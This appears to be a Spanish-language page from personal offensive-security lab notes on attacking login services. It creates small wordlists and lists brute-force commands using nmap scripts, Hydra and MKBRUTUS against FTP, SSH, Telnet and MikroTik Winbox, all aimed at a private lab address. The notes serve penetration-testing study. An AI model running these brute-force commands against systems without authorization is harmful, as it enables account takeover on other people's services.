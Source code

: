 ```yaml
---
theme: "just-the-docs"
title: "Ataques de Autenticacion/Login"
layout: default
nav_order: 13
parent: "Seguridad Ofensiva"
---
```

# Ataques de Autenticacion/login
## Creacion de diccionarios/wordlist pequenos para hacer las pruebas
```bash
cd /home/lesand/Desktop/tools/diccionarios  
echo -e "admin\nroot" > usuarios.txt
echo -e "lesand2222\nlesand3333\nlesand1111\nlesand4321\nlesand1234\nlesand2020\nlesand2022\nlesand2023\nlesand2024\nlesand2025" > dicc.txt
```
## FTP
### NMAP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## Hydra
```bash
hydra -L usuarios.txt -P dicc.txt ftp://192.168.85.134
```
## SSH
### NMAP
```bash
nmap -p 22 --script ssh-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## TELNET
### NMAP
```bash
nmap -p 23 --script telnet-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## Hydra
```bash
hydra -L usuarios.txt -P dicc.txt telnet://192.168.85.134
```
## Winbox/API Mikrotik
### MKBRUTUS
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/mkbrutusproject/MKBRUTUS.git
cd MKBRUTUS
python3 mkbrutus.py -t 192.168.85.134 -d /home/lesand/Desktop/tools/diccionarios/dicc.txt
```
